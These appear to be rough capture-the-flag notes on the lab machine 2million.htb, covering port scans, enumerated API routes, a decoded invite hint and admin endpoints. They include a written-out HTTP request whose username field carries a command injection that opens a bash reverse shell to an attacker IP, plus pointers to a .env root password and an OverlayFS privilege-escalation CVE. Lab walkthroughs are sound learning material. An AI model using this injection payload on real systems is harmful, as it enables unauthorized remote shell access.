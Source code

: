 IP: 10.10.11.221

Discovered open port 80/tcp on 10.10.11.221
Discovered open port 22/tcp on 10.10.11.221

domain: 2million.htb
routes:

"/api/stats/daily/owns/" + t
"/api/stats/global"
"/api/users/htb/connection/status?api_token=" + t
"/api/machines/ping/" + t + "?api_token=" + e
"/shouts/support/get/html/" + t + "?api_token=" + e
"/api/shouts/support/new/?api_token=" + e
"/api/shouts/team/get/html/" + t + "?api_token=" + e
"/api/shouts/team/new/?api_token=" + e
api/v1/user/login
/login
/logout
/register
/invite
/js/inviteapi.min.js
/api/v1/invite/verify

Javascript file with routes: /js/htb-frontpage.min.js
Javascript file: /js/htb-frontend.min.js

Data: Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr

Decoded: TAYQV-IOWJZ-U9DXX-MGS74


Valid routes inside the website:
/home
/home/rules
/home/changelog
/access
/api/v1/user/vpn/generate
/api/v1/user/vpn/regenerate


remote edge-eu-free-1.2million.htb 1337



admin	
GET	
/api/v1/admin/auth	"Check if user is admin"
POST	
/api/v1/admin/vpn/generate	"Generate VPN for specific user"
PUT	
/api/v1/admin/settings/update	"Update user settings"



POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=6sq3ogsj8is8muclinsns0anrp
Upgrade-Insecure-Requests: 1
Content-Length: 80

{
	"username": "teste;bash -c 'bash -i >& /dev/tcp/10.10.14.29/1337 0>&1' #"
}

ls -la

.env root password

https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/
